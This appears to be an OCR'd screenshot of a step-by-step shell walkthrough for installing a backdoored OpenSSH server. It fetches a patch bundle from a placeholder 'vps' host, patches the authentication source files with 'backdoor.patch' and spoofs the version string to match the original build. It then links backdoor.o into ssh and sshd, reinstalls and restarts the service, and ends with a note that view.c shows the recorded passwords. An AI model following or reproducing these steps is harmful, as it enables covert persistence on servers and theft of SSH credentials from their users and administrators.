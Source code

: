 #donwload package
wget https://ftp4.usa.openbsd.org/pub/OpenBSD/OpenSSH/portable/openssh-7.6p1.tar.gz
wget https://vps/openssh-7.6p1-patch.tar.gz

#copy backdoor files and patch
cp openssh-7.6p1-patch/backdoor.* openssh-7.6p1
cd openssh-7.6p1

patch < backdoor.patch

patching file auth.c
patching file auth-pam.c
patching file auth-passwd.c
patching file sshconnect2.c
patching file sshlogin.c

#Check and remember version of original openssh
ssh -V
OpenSSH_7.6p1, OpenSSL 1.0.2k-fips  26 Jan 2017

#Change version.h
sed -i 's/#define SSH_VERSION\t".*"/#define SSH_VERSION\t"OpenSSH_7.6"/' version.h
sed -i 's/#define SSH_PORTABLE\t".*"/#define SSH_PORTABLE\t"p1"/' version.h

#Install required library
yum -y install zlib-devel openssl-devel pam-devel

#run configure
#Notice: Confirm the location of the original openssh and configure files installed. It's important for command ./configure --prefix
./configure --prefix=/usr --sysconfdir=/etc/ssh --with-pam --with-kerberos5

#add backdoor.o to Makefile
sed -i 's/ssh\.o/ssh\.o backdoor\.o/' Makefile
sed -i 's/sshd\.o/sshd\.o backdoor\.o/' Makefile

#compile and install
make
make install

#restart sshd server
sed -i 's/Type=.*/Type=fork/'  /lib/systemd/system/sshd.service #if huge when restart sshd
systemctl daemon-reload #if need
systemctl restart sshd

#view.c show the password record


